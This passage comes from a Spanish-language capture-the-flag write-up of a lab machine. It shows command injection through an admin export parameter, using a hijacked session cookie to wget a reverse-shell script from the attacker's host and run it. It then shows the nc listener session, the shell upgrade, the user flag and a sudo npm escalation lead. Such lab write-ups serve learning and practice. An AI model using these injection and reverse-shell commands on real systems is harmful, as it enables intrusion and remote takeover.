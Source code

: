 Descargo y ejecuto el archivo

```null
curl -H "Cookie: connect.sid=s%3A9fa78360-98ed-11ed-acb1-f148c6fda646.8wGLR4jXSJPq47VB2dINcX2oFYJ2AcGush%2Fozi2dr2w" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" 'http://10.10.10.25:8000/admin/export?table=%26wget%200x0a0a1006/revshell'

curl -H "Cookie: connect.sid=s%3A9fa78360-98ed-11ed-acb1-f148c6fda646.8wGLR4jXSJPq47VB2dINcX2oFYJ2AcGush%2Fozi2dr2w" -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0" 'http://10.10.10.25:8000/admin/export?table=%26bash%20revshell'
```

Y obtengo la reverse shell

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:50180.
bash: cannot set terminal process group (1142): Inappropriate ioctl for device
bash: no job control in this shell
algernon@holiday:~/app$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
algernon@holiday:~/app$ export TERM=xterm
export TERM=xterm
algernon@holiday:~/app$ export SHELL=bash
export SHELL=bash   
algernon@holiday:~/app$ stty rows 56 columns 209
```

Abro la primera flag

```null
algernon@holiday:~$ cat /home/algernon/user.txt 
50ff28cb99b4006c47eac8dd92b94257
```

# Escalada

Al ver los privilegios a nivel de sudoers, puedo ver que puedo ejecutar un comando como el usuario que quiera

```null
algernon@holiday:~$ sudo -l
Matching Defaults entries for algernon on holiday:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

En GTFObins explican el vector de escalada

